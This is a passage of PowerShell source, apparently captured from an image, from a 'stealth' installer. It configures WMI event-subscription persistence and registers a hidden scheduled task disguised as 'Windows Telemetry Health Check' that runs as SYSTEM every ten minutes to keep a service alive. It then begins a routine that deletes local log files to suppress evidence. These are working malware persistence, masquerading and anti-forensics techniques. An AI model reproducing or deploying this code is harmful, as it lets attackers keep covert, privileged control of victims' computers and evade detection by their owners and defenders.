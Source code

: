 ```powershell
            $existingBinding | Remove-WmiObject
        }

        Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments @{
            Filter = $filter
            Consumer = $consumer
        } | Out-Null

        Write-StealthLog "WMI persistence configured successfully" -Level 'SUCCESS'
        return $true

    } catch {
        Write-StealthLog "Error configuring WMI persistence: $_" -Level 'WARNING'
        return $true
    }
}

function Add-ScheduledTaskPersistence {
    Write-StealthLog "Adding scheduled task persistence mechanism..."

    try {
        $taskName = "Windows Telemetry Health Check"

        # Remove existing task if present
        Unregister-ScheduledTask -TaskName $taskName -Confirm:$false -ErrorAction SilentlyContinue

        # Task action - check and start service
        $action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument "-WindowStyle Hidden -NonInteractive -NoProfile -Command `"if ((Get-Service -Name '$($StealthConfig.ServiceName)').Status -ne 'Running') { Start-Service -Name '$($StealthConfig.ServiceName)' }`""

        # Task trigger - every 10 minutes
        $trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 10) -RepetitionDuration ([TimeSpan]::MaxValue)

        # Task principal - run as SYSTEM
        $principal = New-ScheduledTaskPrincipal -UserId 'NT AUTHORITY\SYSTEM' -LogonType ServiceAccount -RunLevel Highest

        # Task settings
        $settings = New-ScheduledTaskSettingsSet -Hidden -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries -StartWhenAvailable -MultipleInstances IgnoreNew

        # Register task
        Register-ScheduledTask -TaskName $taskName -Action $action -Trigger $trigger -Principal $principal -Settings $settings -Force | Out-Null

        Write-StealthLog "Scheduled task persistence added" -Level 'SUCCESS'
        return $true

    } catch {
        Write-StealthLog "Error adding scheduled task: $_" -Level 'WARNING'
        return $true
    }
}

function Disable-LocalLogging {
    Write-StealthLog "Suppressing local log files..."

    try {
        # Remove any existing log files
        $logPath = "$($StealthConfig.InstallPath)\$($StealthConfig.LogFileName)"
        if (Test-Path $logPath) {
```